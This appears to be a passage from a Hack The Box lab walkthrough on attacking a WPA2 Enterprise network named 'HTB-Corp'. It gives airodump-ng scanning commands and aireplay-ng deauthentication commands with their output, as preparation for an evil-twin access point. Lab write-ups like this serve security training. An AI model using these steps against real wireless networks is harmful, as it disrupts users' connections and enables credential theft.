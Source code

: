
Once enabled, students need to use `airodump-ng` to scan for wireless networks, providing the `-w` option to save the scan results.

Code: shell

```shell
sudo airodump-ng wlan0mon -w HTB -c 1
```

```
wifi@HTB-Corp:~$ sudo airodump-ng wlan0mon

 CH 11 ][ Elapsed: 4 mins ][ 2025-03-06 05:56 ]

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 54:8C:A0:E8:DF:B1  -28      184        5    0   1   54   WPA2 CCMP   MGT  HTB-Corp                                                                                                                              

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 54:8C:A0:E8:DF:B1  BA:69:91:12:6A:23  -29   54 - 9      0        4                                                                                                                                               
 (not associated)   EE:B1:E8:70:2B:47  -49    0 - 1      0        2                                                                                                                                               
 (not associated)   46:D3:3F:48:AD:8F  -49    0 - 1      0        2   
```

Examining the output of `airodumo-ng`, students will discover several client devices and an access point for the `HTB-Corp` network. Students will also note that `HTB-Corp` is using WPA2 Enterprise, indicated by the `AUTH` type `MGT`.

In order to attack WPA2 Enterprise, the rogue access point must have a certificate, ideally one with information similar to the legitimate access point. Therefore, students need to deauthenticate a client from the `HTB-Corp` network and capture the handshake. `Note: the MAC address of the client may be different than what is shown below.`

Code: shell

```shell
sudo aireplay-ng -0 20 -a 54:8C:A0:E8:DF:B1 -c <CLIENT_MAC> wlan0mon
```

```
wifi@HTB-Corp:~$ sudo aireplay-ng -0 20 -a 54:8C:A0:E8:DF:B1 -c  BA:69:91:12:6A:23 wlan0mon                                                                            
08:13:30  Waiting for beacon frame (BSSID: 54:8C:A0:E8:DF:B1) on channel 1
08:13:30  Sending 64 directed DeAuth (code 7). STMAC: [BA:69:91:12:6A:23] [ 0| 0 ACKs]
08:13:31  Sending 64 directed DeAuth (code 7). STMAC: [BA:69:91:12:6A:23] [ 0| 0 ACKs]
08:13:31  Sending 64 directed DeAuth (code 7). STMAC: [BA:69:91:12:6A:23] [ 0| 0 ACKs]
08:13:32  Sending 64 directed DeAuth (code 7). STMAC: [BA:69:91:12:6A:23] [ 0| 0 ACKs]
<>SNIP>
```
